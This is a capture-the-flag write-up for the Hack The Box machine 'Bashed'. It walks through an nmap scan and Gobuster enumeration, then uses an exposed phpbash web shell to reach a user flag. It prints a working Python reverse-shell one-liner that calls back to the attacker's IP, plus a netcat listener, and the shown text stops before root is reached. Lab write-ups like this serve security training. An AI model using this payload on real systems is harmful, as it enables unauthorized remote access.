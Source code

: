 # Bashed      

![Bashed](./Screenshots/)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/)

Here are the descriptions of the open port shown in the screenshot:

### **80/tcp (HTTP)**
The web server on this port is **Apache httpd 2.4.18** running on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, providing a variety of options for client interactions. The HTTP title returned is **Arrexel's Development Site**, indicating a development-oriented webpage. The **Apache/2.4.18 (Ubuntu)** server header confirms the server type and version, which may be relevant when identifying any vulnerabilities specific to this version of Apache. Additionally, a unique favicon hash **MD5: 6AA5034A553DFA77C3B2C7B4C26CF870** suggests potential for fingerprinting or further analysis.

Http is open, so let's paste `http://{target ip}` into the browser.

![web](./Screenshots/bashedweb.png)

The site is very limited but we can easily access the only article - **phpbash**.

![web](./Screenshots/bashedweb2.png)

Let's join `https://github.com/Arrexel/phpbash` then.

![web](./Screenshots/bashedweb3.png)

My guess was that we have to transfer `phpbash.php` or `phpbash.min.php` to the server and then try to execute it.

I was thinking that maybe we could find `uploads` subdomain and then drop file there, so I used **Gobuster**. 

### Gobuster

I typed:

```
gobuster dir -u http://{target ip}/ -w {path to the dictionary}
```

![Gobuster](./Screenshots/bashedgobuster.png)

Interestingly, there was nothing in `/uploads`, but in the `/dev` section I found `phpbash.php` and `phpbash.min.php`.

![Gobuster](./Screenshots/bashedgobuster2.png)

Let's click on `phpbash.php`.

![Gobuster](./Screenshots/bashedgobuster3.png)

We have a shell.

![Gobuster](./Screenshots/bashedgobuster4.png)

### Get the user flag

The `user` flag is in the `/home/arrexel` directory.

![flag](./Screenshots/basheduserflag.png)

### Privilege escalation

Although **phpbash** shell is quite good, I prefer to have one in my terminal rather than in the web. Especially when I have to find out how to escalate privileges. The web one often freezes and you have to refresh, losing your progress.

![PE](./Screenshots/bashedpe.png)

**Python** is present, so we can create **Python** payload.

If you want to create `payload` quickly go to `https://www.revshells.com/` and select one of the Python ones(remember not to use Python3 ones).

I used **Python #2**:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{your tun0 ip}",{port of your choice}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

You can copy, and modify it.

### Netcat

Let's set up a **Netcat** listener.

```
nc -lvnp {port you have chosen}
```

![PE](./Screenshots/bashedpe2.png)

Now in the webshell paste your paylod.

In your **Netcat** tab you should have a shell.
